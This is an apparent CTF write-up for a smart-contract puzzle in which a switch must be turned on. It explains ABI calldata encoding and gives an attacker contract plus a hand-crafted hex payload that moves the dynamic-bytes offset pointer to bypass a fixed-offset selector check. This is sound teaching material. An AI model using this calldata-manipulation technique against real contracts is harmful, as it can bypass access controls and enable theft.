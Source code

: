 ### Goals

Turn switchOn

### Exploit

This riddle is one of my fav in whole CTF. We need to understand how calldata is being encoded.

Payload when calling `turnSwitchOff`:

```code
 Possible methods:
 - flipSwitch(bytes)
 ------------
 [000]: 0000000000000000000000000000000000000000000000000000000000000020
 [020]: 0000000000000000000000000000000000000000000000000000000000000004
 [040]: 20606e1500000000000000000000000000000000000000000000000000000000
```

The dynamic data (which bytes are) is encoded in special way. Since it is dynamic we need to store it's length. So we can see that at position [000] we have the pointer towards data length. Then we go to position below and digest 4 first bytes which are `flipSwitch` function signature.

How ever this level has instructions that extract function signature from some arbitrary location in calldata.
As you see below selector value is being assigned data starting at 68th byte of payload that have length of 4 bytes (signature).

```code
assembly {
    calldatacopy(selector, 68, 4) // grab function selector from calldata
}
```

We can build our custom payload that will still have encoded `turnOffSwitch` at this position but the pointer at the beginning will point towards `turnOnSwitch`.

```diff
+   [000]: 0000000000000000000000000000000000000000000000000000000000000060
    [020]: 0000000000000000000000000000000000000000000000000000000000000004
    [040]: 20606e1500000000000000000000000000000000000000000000000000000000
+   [060]: 0000000000000000000000000000000000000000000000000000000000000004
+   [080]: 76227e1200000000000000000000000000000000000000000000000000000000
```

### Code

Deploy contract in Remix

```code
contract TurnOn {
    address t = 0x358AA13c52544ECCEF6B0ADD0f801012ADAD5eE3;

    function pwn(bytes memory payload) external {
        t.call(payload);
    }
}
```

Deploy contract and call `pwn` with payload:

`0x30c13ade0000000000000000000000000000000000000000000000000000000000000060000000000000000000000000000000000000000000000000000000000000000420606e1500000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000476227e1200000000000000000000000000000000000000000000000000000000`

Done!
